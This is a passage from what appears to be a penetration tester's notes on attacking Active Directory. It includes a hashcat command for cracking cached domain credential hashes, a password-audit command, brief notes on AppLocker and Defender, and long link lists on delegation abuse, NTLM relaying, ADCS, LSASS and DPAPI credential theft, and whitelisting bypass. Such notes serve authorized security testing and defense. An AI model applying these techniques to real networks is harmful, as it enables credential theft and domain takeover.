Slow to be cracked due to PBKDF2 usage (*PBKDF2(HMAC-SHA1, 10240, DCC1, username*)
- https://security.stackexchange.com/questions/30889/cracking-ms-cache-v2-hashes-using-gpu
- https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/
```
hashcat -m 2100 -a 0 DCC2_hashes.txt ../../wordlists/rockyou_2021.txt
```


## Reporting / Collaborative

### PlumHound
- https://www.blackhillsinfosec.com/plumhound-reporting-engine-for-bloodhoundad/
- https://github.com/plumhound

### Pwndoc

### Password audit reporting
- https://github.com/clr2of8/DPAT
```
dpat.py -n ntds.dit -c hashcat.potfile -g "Domain Admins.txt" "Enterprise Admins.txt"
```




## Defenses

### Restricted Admin Mode
- https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx
- https://labs.withsecure.com/publications/undisable
- 

### Windows Defender Antivirus

### AppLocker
- https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75

**Rules**: Are defined and control execution of the followings items:
- Applications
- Scripts
- Packaged Applications
- Installers
- DLL

**Conditions**: Are based on the followings filters:
- Publisher (Ex: Software signed by valid vendor)
- Path
- File hash

--> Finally : **Allow** and **Deny** actions can be assigned to specific user/group.

### Windows Defender Application Control (WDAC)
- https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/wdac-and-applocker-overview

### Windows Defender Advanced Threat Protection (ATP)

### Windows Defender : Exploit Guard

### Windows Defender : Application Guard

### Windows Defender : Device Guard

### Windows Defender : Credential Guard


## Resources

#### Red Team Cheatsheet 
- https://0xsp.com/offensive/red-team-cheatsheet/

#### OCD - AD Mind Map
- https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg

#### PetitPotam and ADCS
- https://www.optiv.com/insights/source-zero/blog/petitpotam-active-directory-certificate-services

#### Active Directory Exploitation cheatsheet
- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
- https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition
- 

#### Attacking Active Directory
- https://www.youtube.com/watch?v=MIt-tIjMr08

#### Kerberos Delegation
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://www.sstic.org/media/SSTIC2014/SSTIC-actes/secrets_dauthentification_pisode_ii__kerberos_cont/SSTIC2014-Article-secrets_dauthentification_pisode_ii__kerberos_contre-attaque-bordes_2.pdf
- https://adsecurity.org/?p=4056
- https://adsecurity.org/?p=1667
- https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c
- https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
- https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783

#### Exceptional blog posts regarding Windows Authentication/Credentials/RDP
- https://syfuhs.net/

#### Windows Logon Types
- https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them#viewer-732hk

#### Windows Name Pipes

#### COM / DCOM

#### PowerShell Without PowerShell
- https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/
- https://www.ired.team/offensive-security/code-execution/powershell-without-powershell
- https://bank-security.medium.com/how-to-running-powershell-commands-without-powershell-exe-a6a19595f628
- https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
- https://www.paloaltonetworks.com/blog/security-operations/stopping-powershell-without-powershell/
- https://www.optiv.com/explore-optiv-insights/blog/unmanaged-powershell-binaries-and-endpoint-protection
- https://github.com/leechristensen/UnmanagedPowerShell

Tools:
- [PowerLine](https://github.com/fullmetalcache/PowerLine)
- [NPS - Not PowerShell](https://github.com/Ben0xA/nps)
- [PowerShdll](https://github.com/p3nt4/PowerShdll)
- [PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell)
- [Nopowershell](https://github.com/Mr-Un1k0d3r/PowerLessShell)
- [SyncAppvPublishingServer]()


- https://h4ms1k.github.io/Red_Team_Active_Directory/#
- https://anishmi123.gitbooks.io/oscp-my-journey/content/active-directory/ad-attacks.html
- https://hausec.com/2019/03/05/penetration-testing-active-directory-part-i/
- https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/amp/
- https://github.com/threatexpress/red-team-scripts
- https://www.thehacker.recipes/ad/recon
- https://www.praetorian.com/blog/red-team-local-privilege-escalation-writable-system-path-privilege-escalation-part-1/
- https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/
- https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/
- https://github.com/tevora-threat/SharpView
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/
- Delegation
- Printnightmare
- Proxylogon,proxyshell,notproxyshell
https://www.praetorian.com/blog/reproducing-proxylogon-exploit/
- Trust, forest
- checker for internal OWA, Exchange vuln
- Exchange vuln privexchange.py
- PAC
- Skeleton key
- Sam Account Name spoofing
- LAPS and LAPS bypass
https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/
- script to enum domain group, protected user unauthenticated (bash + python projects)
- Kerberoast/asrep
- https://pentestbook.six2dez.com/post-exploitation/windows/ad
- ldap signing
- Spooler
- petitpotam
https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/
https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory
https://www.ravenswoodtechnology.com/protect-your-windows-network-from-the-petitpotam-exploit/
- ADCS
https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#domain-escalation-via-certificates
https://github.com/ly4k/Certipy
- adsecurity all
- Wdigest
- windows authentication cache (HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\CachedLogonsCount)
- LSASS
- DPAPI
- xfreerdp tool
- Service accounts with interactive logon
- Permissive Active Directory Domain Services https://blog.netspi.com/exploiting-adidns/
- DHCP spoofing
- ARP spoofing
- Pypykatz
- Spraykatz
- VLAN hopping
- SNMP default
- Potato family : https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all
- SMTP
- ACL/DACL exploitation
- Owner https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#owns
- Hekatomb tool (https://github.com/Processus-Thief/HEKATOMB)


LAPS, JEA, WSL, RBCD, WDAC, ASR, AWL, Credential Guard, CLM, virtualization 

